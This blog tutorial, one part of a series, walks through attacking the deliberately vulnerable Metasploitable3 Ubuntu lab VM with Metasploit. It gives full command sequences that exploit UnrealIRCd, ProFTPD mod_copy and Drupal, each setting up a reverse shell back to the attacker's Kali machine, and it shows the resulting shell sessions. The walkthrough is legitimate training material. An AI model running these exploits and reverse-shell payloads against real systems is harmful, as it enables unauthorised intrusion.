



This post is part of a series on the Ubuntu Linux version of Metasploitable3. The following posts are part of the series:

- Part 1: [Building the Ubuntu Linux Version](/blog/2018-07-03/metasploitable3-building-the-ubuntu-linux-version/)
- Part 2: [Customizing the Ubuntu Linux Version](/blog/2018-07-04-metasploitable3-customizing-the-ubuntu-linux-version)
- Part 3: [Pentesting the Ubuntu Linux Version - SQL Injection](/blog/2018-07-08/metasploitable3-pentesting-the-ubuntu-linux-version-part1)
- Part 4: [Pentesting the Ubuntu Linux Version - Attacking Services](/blog/2018-07-09/metasploitable3-pentesting-the-ubuntu-linux-version-part2) (You are here!)

## Contents

```toc
```

## Introduction

My previous three posts of Metasploitable3 covered [Building Metasploitable3](/blog/2018-07-03/metasploitable3-building-the-ubuntu-linux-version/), [Customizing Metasploitable3](/blog/2018-07-04/metasploitable3-customizing-the-ubuntu-linux-version) and [Pentesting Metasploitable3 using SQL Injection](/blog/2018-07-08/metasploitable3-pentesting-the-ubuntu-linux-version-part1). This post continues with the series that is specifically targeted to the Ubuntu Linux version of Metasploitable3. In this post, we continue with the pentest of Metasploitable3 this time attacking vulnerable services using the Metasploit Framework. 

If you have not followed my Metasploitable3 Ubuntu Linux version series - here is a summary of the network configuration. In my tutorial Metasploitable3 has a _Host-Only_ network configuration with the IP address of: `192.168.19.20`. While, Kali Linux (version 2018.2) is used as the attack system, again, with _Host-Only_ network configuration with the IP address of: `192.168.19.10`.

## Configuring the Metasploit Framework

If you have not followed my Metasploitable3 Ubuntu Linux version series - start by performing a port scan of the Metasploitable3 system.

```none
root@kali:~# nmap -sV -Pn -T4 -p 1-65535 -oX metasploitable3.xml 192.168.19.20
```

This is a basic go-to `nmap` port scan which queries all available ports (`-p 1-65535`), includes service version detection (`-sV`) and saves the results to an XML file type with the name `metasploitable3.xml`. The purpose of saving the `nmap` port scan is to import these results into the Metasploit Framework. To achieve this, we need to create a database. Initialize the Metasploit Framework database using the following command:

```none
root@kali:~# msfdb init
[+] Starting database
[+] Creating database user 'msf'
[+] Creating databases 'msf'
[+] Creating databases 'msf_test'
[+] Creating configuration file '/usr/share/metasploit-framework/config/database.yml'
[+] Creating initial database schema
```

If you receive an error, you might need to start the PostgreSQL database using the following command:

```none
sudo systemctl start postgresql
```

Now we can start the Metasploit Framework Console, otherwise known as _msfconsole_ and started with the command `msfconsole`:

```none
root@kali:~# msfconsole 

       =[ metasploit v4.16.48-dev                         ]
+ -- --=[ 1749 exploits - 1002 auxiliary - 302 post       ]
+ -- --=[ 536 payloads - 40 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > 
```

Best practice dictates that we load in the `nmap` port scan using the `db_import` command and passing the file name of the `nmap` port scan. This tutorial expects that you started the Metasploit Framework in the same directory as the port scan file. If not, you can use an absolute path to indicate the location of the port scan file. 

```none
msf > db_import metasploitable3.xml
[*] Importing 'Nmap XML' data
[*] Import: Parsing with 'Nokogiri v1.8.2'
[*] Importing host 192.168.19.20
[*] Successfully imported /root/metasploitable3.xml
```

Try the `hosts` and `services` commands to check if the database is loaded and functioning correctly:

```none
msf > hosts

Hosts
=====

address        mac                name  os_name  os_flavor  os_sp  purpose  info  comments
-------        ---                ----  -------  ---------  -----  -------  ----  --------
192.168.19.20  00:0c:29:00:43:58        Unknown                    device
```

```none
msf > services
Services
========

host           port  proto  name         state   info
----           ----  -----  ----         -----   ----
192.168.19.20  21    tcp    ftp          open    ProFTPD 1.3.5
192.168.19.20  22    tcp    ssh          open    OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.10 Ubuntu Linux; protocol 2.0
192.168.19.20  80    tcp    http         open    Apache httpd 2.4.7
192.168.19.20  445   tcp    netbios-ssn  open    Samba smbd 3.X - 4.X workgroup: WORKGROUP
192.168.19.20  631   tcp    ipp          open    CUPS 1.7
192.168.19.20  3000  tcp    ppp          closed  
192.168.19.20  3306  tcp    mysql        open    MySQL unauthorized
192.168.19.20  3500  tcp    http         open    WEBrick httpd 1.3.1 Ruby 2.3.7 (2018-03-28)
192.168.19.20  6697  tcp    irc          open    UnrealIRCd
192.168.19.20  8181  tcp    http         open    WEBrick httpd 1.3.1 Ruby 2.3.7 (2018-03-28)
```

With these configurations set, we are ready to start exploiting vulnerabilities. Well, first finding the vulnerabilities... then exploiting them! The following sections discuss a pentest which is formatted into sections based on the port number of the service running on Metasploitable3.

## Port 6697: UnrealIRCd

I have previously encountered UnrealIRCd in Metasploitable2. Searching the Metasploit Framework database (using `search unrealircd`) only yielded one search hit. This was the same vulnerability and associated exploit used in Metasploitable2. The same of the exploit is:

- exploit/unix/irc/unreal_ircd_3281_backdoor

I could not determine the specific version on Metasploitable3, but decided to give the exploit a whirl:

```none
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set rhost 192.168.19.20
rhost => 192.168.19.20

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set rport 6697
rport => 6697

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload cmd/unix/reverse_ruby
payload => cmd/unix/reverse_ruby

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set lhost 192.168.19.10
lhost => 192.168.19.10

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set lport 2345
lport => 2345

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > run
```

I am not a pentester by trade, or is it something that I do very often... but I thought this was a little simple! I am guessing that the single available exploit for UnrealIRCd made this a little too easy. Anyway, after running the exploit, remote access was gained:

```none
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP handler on 192.168.19.10:2345 
[*] 192.168.19.20:6697 - Connected to 192.168.19.20:6697...
    :irc.TestIRC.net NOTICE AUTH :*** Looking up your hostname...
[*] 192.168.19.20:6697 - Sending backdoor command...
[*] Command shell session 1 opened (192.168.19.10:2345 -> 192.168.19.20:49971) at 2018-07-07 22:47:02 -0400
```

Running the `whoami` command indicated that I had gained remote access using the `boba_fett` account. I felt like a bounty hunter! I thought it was interesting that I couldn't traverse the file system using this exploit, rather I was stuck in the `/opt/unrealircd/Unreal3.2` directory, but could navigate the file system by listing directories seeing what was around. I though it strange that after listing the `/home` folder, and the user who was in the group names _users_ had read and execute permission on all home directories.

```none
ls -la /home/
total 72
drwxr-xr-x 18 root             root    4096 Jul  2 21:26 .
drwxr-xr-x 24 root             root    4096 Jul  2 22:26 ..
drwxr-xr-x  3 anakin_skywalker users   4096 Jul  2 21:47 anakin_skywalker
drwxr-xr-x  3 artoo_detoo      users   4096 Jul  2 21:47 artoo_detoo
drwxr-xr-x  2 ben_kenobi       users   4096 Jul  2 21:26 ben_kenobi
drwxr-xr-x  2 boba_fett        users   4096 Jul  2 21:26 boba_fett
drwxr-xr-x  2 c_three_pio      users   4096 Jul  2 21:26 c_three_pio
drwxr-xr-x  2 chewbacca        users   4096 Jul  2 21:26 chewbacca
drwxr-xr-x  2 darth_vader      users   4096 Jul  2 21:26 darth_vader
drwxr-xr-x  2 greedo           users   4096 Jul  2 21:26 greedo
drwxr-xr-x  2 han_solo         users   4096 Jul  2 21:26 han_solo
drwxr-xr-x  2 jabba_hutt       users   4096 Jul  2 21:26 jabba_hutt
drwxr-xr-x  2 jarjar_binks     users   4096 Jul  2 21:26 jarjar_binks
drwxr-xr-x  4 kylo_ren         users   4096 Jul  2 21:47 kylo_ren
drwxr-xr-x  2 lando_calrissian users   4096 Jul  2 21:26 lando_calrissian
drwxr-xr-x  3 leia_organa      users   4096 Jul  7 22:24 leia_organa
drwxr-xr-x  2 luke_skywalker   users   4096 Jul  2 21:26 luke_skywalker
drwxr-xr-x  5 vagrant          vagrant 4096 Jul  3 00:02 vagrant
```

Unfortunately, `sudo` or `root` access was not possible as this exploit gained access using the `boba_fett` account, who was not in the `sudo` group (as indicated by the `groups` command). However, `boba_fett` was part of the `docker` group... interesting! Moving on!

## Port 21: ProFTPD version 1.3.5

Looking back over the output from the `services` command in the `msfconsole`, the next prospect I choose was the FTP server running port 21.

```none
192.168.19.20  21    tcp    ftp          open    ProFTPD 1.3.5
```

A quick `msfconsole` search yeilded the following results:

```none
exploit/freebsd/ftp/proftp_telnet_iac        2010-11-01       great      ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (FreeBSD)
exploit/linux/ftp/proftp_sreplace            2006-11-26       great      ProFTPD 1.2 - 1.3.0 sreplace Buffer Overflow (Linux)
exploit/linux/ftp/proftp_telnet_iac          2010-11-01       great      ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (Linux)
exploit/linux/misc/netsupport_manager_agent  2011-01-08       average    NetSupport Manager Agent Remote Buffer Overflow
exploit/unix/ftp/proftpd_133c_backdoor       2010-12-02       excellent  ProFTPD-1.3.3c Backdoor Command Execution
exploit/unix/ftp/proftpd_modcopy_exec        2015-04-22       excellent  ProFTPD 1.3.5 Mod_Copy Command Execution
```

I mucked around with a few of the exploits listed but did not get very far. All the exploits were at, or below, the version of ProFTPD on Metasploitable3 (version 1.3.5). I tried the last on the list, `proftpd_modcopy_exec`. 

```none
msf > use exploit/unix/ftp/proftpd_modcopy_exec

msf exploit(unix/ftp/proftpd_modcopy_exec) > set rhost 192.168.19.20
rhost => 192.168.19.20

msf exploit(unix/ftp/proftpd_modcopy_exec) > set sitepath /var/www/html
sitepath => /var/www/html

msf exploit(unix/ftp/proftpd_modcopy_exec) > set exploit cmd/unix/reverse_perl
exploit => cmd/unix/reverse_perl

msf exploit(unix/ftp/proftpd_modcopy_exec) > run

[*] Started reverse TCP handler on 192.168.19.10:4444 
[*] 192.168.19.20:80 - 192.168.19.20:21 - Connected to FTP server
[*] 192.168.19.20:80 - 192.168.19.20:21 - Sending copy commands to FTP server
[*] 192.168.19.20:80 - Executing PHP payload /jjIRB1.php
[*] Command shell session 4 opened (192.168.19.10:4444 -> 192.168.19.20:47618) at 2018-07-07 23:21:25 -0400
```

This exploit gained remote access as the `www-data` user. This was not very useful, as the UnrealIRCd exploit gained a higher level of access. Moving on!

## Port 80: Drupal

In my previous post ([Pentesting Metasploitable3 using SQL Injection]()), I investigated the Apache web server running on port 80. In the directory listing provided by the web server was a Drupal install.


I found the presence of Drupal to be interesting. This was a technology that I had barely used and was interested to investigate further. A quick exploit search in the Metasploit Framework revealed a few exploits available to target Drupal. Additionally, the `searchsploit` listed even more, usually with a specific version that was vulnerable.

```none
auxiliary/gather/drupal_openid_xxe             2012-10-17       normal     Drupal OpenID External Entity Injection
auxiliary/scanner/http/drupal_views_user_enum  2010-07-02       normal     Drupal Views Module Users Enumeration
exploit/multi/http/drupal_drupageddon          2014-10-15       excellent  Drupal HTTP Parameter Key/Value SQL Injection
exploit/unix/webapp/drupal_coder_exec          2016-07-13       excellent  Drupal CODER Module Remote Command Execution
exploit/unix/webapp/drupal_restws_exec         2016-07-13       excellent  Drupal RESTWS Module Remote PHP Code Execution
exploit/unix/webapp/php_xmlrpc_eval            2005-06-29       excellent  PHP XML-RPC Arbitrary Code Execution
```

I started by having a look over the source code for the Drupal website. I noticed some information about the website structure and different subdirectories that all originated from the Drupal folder in the `/var/www/html/drupal` directory. 



I wanted to know the specific Drupal version that was running on the Metasploitable3 server. After a few Google searches and some skim-reading. I discovered a file named `blog.info` in the `drupal/modules/blog` directory that stored version information. 



Opening the file revealed the installed version of Drupal was 7.5.



From here, I investigated some exploits and started testing them out against Metasploitable3.
I was specifically selecting any exploits for version 7.5 but was having no luck. In the end, I discovered the `drupal_drupageddon` exploit which was successful against the Drupal install on Metasploitable3.

```none
msf > use exploit/multi/http/drupal_drupageddon

msf exploit(multi/http/drupal_drupageddon) > set rhost 192.168.19.20
rhost => 192.168.19.20

msf exploit(multi/http/drupal_drupageddon) > set targeturi /drupal/
targeturi => /drupal/

msf exploit(multi/http/drupal_drupageddon) > set payload php/reverse_perl 
payload => php/reverse_perl

msf exploit(multi/http/drupal_drupageddon) > exploit

[*] Started reverse TCP handler on 192.168.19.10:4444 
[*] Command shell session 6 opened (192.168.19.10:4444 -> 192.168.19.20:47667) at 2018-07-08 00:06:22 -0400
```

The `targeturi` was set to `/drupal/` instead of root (`/`) as the drupal install was in the `drupal` directory on the Apache web server. After the exploit ran I was, again, unsuccessful! The `whoami` command revealed I was... the `www-data` user. What was very interesting was that the [
Vulnerability & Exploit Database](https://www.rapid7.com/db/modules/exploit/multi/http/drupal_drupageddon) stated the exploit only worked against Drupal 7.0 and 7.31 (was fixed in 7.32). The server apparently had version 7.5 and was still vulnerable. Anyway, no higher level of access was gained. 

## Resources

While writing the post and investigating the Metasploitable3 Ubuntu Linux build I came across some very interesting articles written by participants of the Rapid7 Capture the Flag (CTF) competition. I have listed the articles below for reference:

- [Metasploitable3 CTF Write-up by 16667](https://github.com/16667/Metasploitable-3-CTF)
- [Metasploitable3 Community CTF – Walkthrough(ish) by DarkGlade](https://darkglade.com/2017/12/12/metasploitable3-community-ctf-walkthroughish/)
- [Metasploitable3 CTF by Trevor Steen](https://ratil.life/metasploitable3-ctf/)

## Conclusion

Hopefully, this tutorial gave you some ideas and knowledge about vulnerabilities and exploits concerned with the Metasploitable3 Ubuntu Linux version. This post took a long time to test and document. I just couldn't get enough of trying different exploit methods and wanted a thorough and well-documented post to share. Hope you enjoyed it, and please leave a comment if you have any information to share! I think there is one more post to come in this series, to finish off testing service exploits, and maybe a little on privilege escalation.
